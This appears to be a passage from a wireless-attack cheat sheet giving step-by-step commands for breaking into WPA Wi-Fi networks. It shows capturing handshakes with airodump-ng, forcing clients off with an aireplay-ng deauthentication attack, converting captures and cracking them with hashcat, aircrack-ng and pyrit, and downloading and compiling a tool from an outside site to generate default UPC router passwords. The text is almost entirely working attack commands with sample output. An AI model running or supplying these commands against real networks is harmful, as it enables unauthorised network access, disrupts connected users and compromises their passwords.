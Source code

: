 #### 4.1. Dictionary attack on WPA

1) airodump on specific network (`WPA handshake: DE:AD:BE:EF:00:01`)
```
# airodump-ng wlan0 --bssid DE:AD:BE:EF:00:01 --channel 1 --write DeadBeef --output-format pcap
```

2) stealthy: wait for 4-way WPA handshake


3) intrusive: trigger deauthentication 
```
# aireplay-ng wlan0 -0 1 -a DE:AD:BE:EF:00:01 -D
```

4) convert WPA `pcap` capture file to a `hashcat` capture file
```
# file DeadBeef-01.cap.pcap
DeadBeef-01.cap.pcap: tcpdump capture file (little-endian) - version 2.4 (802.11, capture length 65535)
# git clone github.com/hashcat/hashcat-utils && cd hashcat-utils/src && make
# cp cap2hccapx.bin /usr/bin/cap2hccapx
# cap2hccapx DeadBeef-01.cap DeadBeef-01.hccapx
Networks detected: 1

[*] BSSID=DE:AD:BE:EF:00:01 ESSID=DeadBeef (Length: 13)
...
Written 6 WPA Handshakes to: DeadBeef-01.hccapx
```


#### 4.2. Cracking

1) Using `hashcat`
```
# hashcat -m 2500 DeadBeef-01.hccapx passwords.txt
# hashcat -m 2500 -a3 DeadBeef-01.hccapx ?d?d?d?d?d?d?d?d
# hashcat -m 2500 -r rules/best64.rule DeadBeef-01.hccapx passwords.txt
```

2) Using `aircrack`
```
# aircrack-ng -w passwords.txt -0 DeadBeef-01.cap
```

3) Using `pyrit`
```
# pyrit -r DeadBeef-01.cap analyze
# pyrit -r DeadBeef-01.cap -i passwords.txt -b DE:AD:BE:EF:00:01 --all-handshakes attack_passthrough
```


#### 4.3. Recover default password based on SSID (`UPC%%07d`)
```
# curl -sSLO https://haxx.in/upc_keys.c
# gcc -O2 -o upc_keys upc_keys.c -lcrypto
# ./upc_keys $SSID 24 | grep -oE '[A-Z]{8}' > passwords.txt  # generate for 2.4GHz
```
